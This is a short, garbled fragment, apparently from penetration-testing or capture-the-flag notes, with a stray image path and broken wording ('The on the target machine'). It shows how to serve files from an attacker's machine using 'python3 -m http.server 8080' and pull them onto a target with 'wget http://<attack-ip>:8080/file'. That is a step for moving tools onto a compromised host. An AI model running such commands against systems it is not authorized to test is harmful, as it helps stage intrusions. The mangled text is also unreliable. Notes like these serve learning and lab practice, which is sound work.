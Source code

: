 - Initiate it: `python3 -m http.server 8080`
- The on the target machine:
````shell
wget http://<attack-ip>:8080/file
````